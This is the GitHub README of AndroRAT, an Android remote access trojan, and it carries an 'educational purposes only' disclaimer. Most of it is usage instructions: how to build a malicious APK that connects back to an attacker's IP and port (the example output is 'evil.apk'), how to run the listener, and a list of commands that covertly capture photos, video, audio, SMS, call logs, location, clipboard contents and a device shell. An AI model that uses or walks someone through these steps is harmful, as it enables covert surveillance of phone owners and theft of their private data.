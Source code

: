**Disclaimer** : This software is meant for educational purposes only. I don't feel responsible for any malicious use of the app.
# AndroRAT 
[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![Twitter Follow](https://img.shields.io/twitter/follow/karma9874?label=Follow&style=social)](https://twitter.com/karma9874)

AndroRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. Androrat is a client/server application developed in Java Android for the client side and the Server is in Python.

##### AndroRAT will work on device from Android 4.0 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> AndroRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 

## Screenshots

![AndroRAT](https://github.com/karma9874/AndroRAT/blob/master/Screenshots/5.jpg "AndroRAT in action")

## Prerequisites
AndroRAT requires Python (> 3.6) and JAVA (or Android Studio)

## Installation
```
git clone https://github.com/karma9874/AndroRAT.git
```
## Usage
### Available Modes
* `--build` - for building the android apk 
* `--shell` - getting an interactive shell of the device
### `build` mode
```
Usage:
  python androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
```
Or you can manually build the apk by importing [Android Code]() folder to Android Studio and changing the IP address and port number in [config.java]() file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device
Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
## Examples

* To build the apk:
```python androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python androRAT.py --shell -i 0.0.0.0 -p 8000```

## Interpreter Examples
* Generating APK
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/6.JPG" width="600"/>
</p>
------------------------------------------------------------------------------------------------------------------------------  

* Some interpreter Commands 
<p align="center">
  <img src="https://github.com/karma9874/AndroRAT/blob/master/Screenshots/1.JPG" width="600"/>
</p>
------------------------------------------------------------------------------------------------------------------------------

## License
AndroRAT is licensed under MIT license take a look at the [LICENSE](https://github.com/karma9874/AndroRAT/blob/master/LICENSE) for more information.



